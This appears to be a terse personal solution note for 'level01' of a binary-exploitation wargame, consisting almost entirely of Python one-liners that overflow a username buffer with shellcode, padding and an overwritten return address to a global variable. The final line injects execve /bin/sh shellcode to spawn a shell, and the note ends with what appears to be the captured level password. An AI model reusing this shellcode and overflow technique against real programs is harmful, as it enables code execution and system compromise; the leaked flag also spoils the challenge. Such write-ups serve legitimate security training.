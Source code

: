 dat_wil(notre code)

override sur la global qui (on pense n'est pas alleatoire dans la stack)


 0x804a040 = a_username
 0x804a040 =  '\x08\x04\xa0\x40'[::-1]


 
 
(python -c "print ('dat_wil\x55\x89\xe5\x83\xec\x28\xc6\x45\xf5\x73\xc6\x45\xf6\x68\xc6\x45\xf7\x01\x0f\xb6\x45\xf7\x83\xe8\x01\x88\x45\xf7\x8d\x45\xf5\x89\x04\x24\xe8\xf5\xfe\xff\xff\xc9\xc3\x00' + 'a' * (256 - 42 - 7))"; echo $(python -c "print('b'*100)")) | ./level01


(python -c "print ('dat_wil\x55\x89\xe5\x83\xec\x28\xc6\x45\xf5\x73\xc6\x45\xf6\x68\xc6\x45\xf7\x01\x0f\xb6\x45\xf7\x83\xe8\x01\x88\x45\xf7\x8d\x45\xf5\x89\x04\x24\xe8\xf5\xfe\xff\xff\xc9\xc3' + 'a' * (256 - 41 - 7))"; echo $(python -c "print('b'*300)")) | ./level01

put ex= 0x80484ef = \x08\x04\x84\xef



for gdb = (python -c "print ('dat_wil\x55\x89\xe5\x83\xec\x28\xc6\x45\xf5\x73\xc6\x45\xf6\x68\xc6\x45\xf7\x01\x0f\xb6\x45\xf7\x83\xe8\x01\x88\x45\xf7\x8d\x45\xf5\x89\x04\x24\xe8\xf5\xfe\xff\xff\xc9\xc3' + 'a' * (256 - 41 - 7) + 'b'*(79) + 'x08\x04\x84\xef'[::-1])") > /tmp/test


solus=

(python -c "print ('dat_wil\x6a\x0b\x58\x31\xf6\x56\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\x89\xca\xcd\x80' + 'a' * (256 - 24 - 7) + 'b'*(79) + '\x08\x04\xa0\x47'[::-1])";
cat) | /home/users/level01/level01

3437684861733951574e67586e475873664b394d
03437684861733951574e67586e475873664b394d